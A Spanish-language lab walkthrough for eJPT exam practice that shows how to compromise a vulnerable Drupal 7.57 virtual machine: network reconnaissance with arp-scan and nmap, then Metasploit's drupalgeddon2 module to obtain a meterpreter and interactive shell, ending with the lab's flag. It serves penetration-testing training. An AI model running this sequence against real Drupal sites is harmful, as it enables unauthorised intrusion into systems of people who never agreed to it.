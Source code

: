 
-----
- TAG: #Evaluación #Vulnerabilidades #Entornos #Drupal
---

Continuamos con el hacking en entornos **CMS**, específicamente en **Drupal**, una alternativa a **WordPress** que también es susceptible a vulnerabilidades, y que podría aparecer en el examen eJPT.

Practicaremos con una máquina **Drupal** especialmente preparada para este ejemplo.

## Preparativos

1. **Máquina atacante**: Kali Linux
2. **Máquina víctima**: Una máquina vulnerable de la comunidad de hacking ético. Puedes descargarla desde este [enlace a Máquina FakeNews](https://mega.nz/file/DH4CgILC#ygeHP981BASaKqrjJNFP3evopnu8yH5kx2zl0EGt11k).

### Configuración

1. Importa la máquina víctima en VirtualBox.
2. Configura el adaptador de red en modo puente.

Una vez iniciado, debemos hacer un reconocimiento desde nuestra máquina Kali Linux utilizando `arp-scan`:

```bash
arp-scan -I eth0 --localnet
```

Verifica la conectividad con la máquina víctima usando `ping`:

```bash
ping -c 1 1.2.3.4
```

Si el TTL indica que es una máquina Linux, pasamos a escanearla con `nmap` para identificar vulnerabilidades:

```bash
nmap -p- -sS -sC -sV --open --min-rate=500 -vvv -n -Pn 1.2.3.4 -oN escaneo
```

El escaneo nos mostrará que los puertos 80 y 22 están abiertos. Sabemos que el puerto 80 está asociado con Drupal, un CMS comúnmente utilizado.

La versión de **Drupal** encontrada es crucial, ya que en el examen es vital identificar las versiones vulnerables. Podríamos utilizar **Metasploit** para encontrar exploits asociados.

Primero, revisemos el contenido del puerto 80. Veremos una página simple con un mensaje de Fake News. Como ya identificamos la versión de Drupal (`/drupal-7.57`), podemos acceder directamente a esta ruta:

```bash
http://1.2.3.4/drupal-7.57
```

Una vez dentro, es recomendable confirmar la versión de Drupal. Si no está visible, inspecciona el código fuente (Ctrl + U) para buscar la versión.

Ahora, con esta información, abrimos **Metasploit** (recomendado abrirlo desde el menú en el examen):

```bash
msfconsole
```

Buscamos exploits específicos para la versión de Drupal:

```bash
search drupal 7
```

Encontraremos varios métodos vulnerables, siendo uno de los más conocidos `drupalgeddon2`. Este exploit es común en los exámenes, así que lo utilizaremos.

Selecciona el exploit usando su índice (por ejemplo, `use 1`).

```bash
use 1
```

Configura las opciones necesarias:

```bash
show options
```

En `RHOSTS`, especifica la dirección IP de la máquina víctima. Asegúrate de configurar el puerto correcto para `RPORT` (en este caso, 80).

```bash
set RHOSTS http://1.2.3.4/drupal-7.57/
```

Ejecuta el ataque:

```bash
run
```

Una vez finalizado, deberías tener acceso a un `meterpreter`. Si deseas navegar por los directorios, escalar privilegios o visualizar archivos, ejecuta el comando `shell`:

```bash
shell
```

Si el prompt no aparece, ejecuta:

```bash
bash -i
```

La flag es:

```
LaNu3vaInf0rm4c10n3sF4ls4
```

---

